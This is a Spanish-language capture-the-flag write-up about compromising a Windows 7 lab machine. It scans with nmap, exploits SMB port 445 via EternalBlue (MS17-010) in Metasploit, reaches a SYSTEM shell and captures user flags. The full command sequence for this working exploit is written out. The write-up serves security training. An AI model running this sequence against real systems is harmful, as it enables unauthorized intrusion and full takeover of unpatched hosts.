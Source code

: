 ## 🛰️**Reconocimiento**
Una vez localizada la IP de la máquina víctima, verifico la conectividad con un simple `ping`:

```bash
ping 192.168.1.56
```
![Captura de pantalla 2025-04-03 140128](https://github.com/user-attachments/assets/6e5b95bc-8c50-4f6e-ba9b-1a226857c9be)

- **`-c1`** → Ejecuta el **ping** una sola vez.

Confirmada la conectividad, realizo un reconocimiento con **nmap**🔎:

```bash
nmap -p- --open -sS -sC -sV --min-rate 2000 -n -Pn -vvv 192.168.1.56 -oN escaneo
```

![image](https://github.com/user-attachments/assets/0f24137a-adf9-48a2-b97a-47adb14ea011)

Una vez finalizado, visualizo los resultados:

```bash
batcat escaneo -l ruby
```

![image](https://github.com/user-attachments/assets/9ccc5543-4740-4039-a117-df283fdaaca1)

En la salida se observa que el puerto 445/TCP está abierto, con un servicio SMB sobre un sistema operativo Windows 7 Home Basic SP1 (build 7601).
Esta versión es conocida por ser vulnerable a EternalBlue (MS17-010).

## 🧨**Explotación del Puerto 445 (SMB) con Metasploit**

Sabiendo que estamos frente a un sistema operativo Windows 7 vulnerable a Eternalblue, empiezo ejecutando Metasploit:

```bash
msfconsole
```
Busco exploits relacionados con EternalBlue:

```bash
search eternalblue
```
![image](https://github.com/user-attachments/assets/444a78fc-aabc-417b-8f95-6b469ab8cc24)

Selecciono el primer módulo de explotación y reviso su configuración:

```bash
use 0
show options
```
![image](https://github.com/user-attachments/assets/a7c4c8cb-df69-446a-adeb-11b5354c6bdc)

De todas sus opciones solo tenemos que configurar **RHOSTS** con la IP de la máquina victima.

```bash
set RHOSTS 192.168.1.56
```
![image](https://github.com/user-attachments/assets/638c9750-3002-4475-8f34-e8e8c6946dea)

Una vez configurado, lanzo el exploit: `run`.

![image](https://github.com/user-attachments/assets/0c2e866b-c545-4b46-a3b0-5ccb7ede265e)

¡Éxito! Se ha abierto una sesión Meterpreter contra la máquina víctima. El siguiente paso es comprobar qué usuario tenemos y, si es necesario, escalar privilegios.

## 🔍**Enumeración de Usuarios**

Dentro de la sesión, lanzo una shell:

```bash
shell
```
![image](https://github.com/user-attachments/assets/2601e79b-63e2-4431-810f-623a6fe5c506)

Compruebo qué usuario estamos utilizando:

```bash
whoami
```
![image](https://github.com/user-attachments/assets/9b900636-0808-4a86-a347-baa28419699c)

Se confirma que tenemos acceso como `nt authority\system`, el usuario más privilegiado del sistema.

Entre los usuarios destacan Admin y Lola.

```bash
net users
```
![image](https://github.com/user-attachments/assets/2667f276-d06b-4ee4-87b5-bf2bd94a83fd)

## 🎯**Obtención de Flags**

Accedo al escritorio del usuario Lola para capturar la Flag correspondiente:

![image](https://github.com/user-attachments/assets/b7f15e3c-cfb5-473b-ab15-b9e446c90c63)

Repito el proceso para el usuario Admin:

![image](https://github.com/user-attachments/assets/c63f0035-11db-4ba2-9fdd-7ad06774d216)

✅ Explotación exitosa con EternalBlue, acceso como SYSTEM, y captura de flags de usuarios clave.🚀


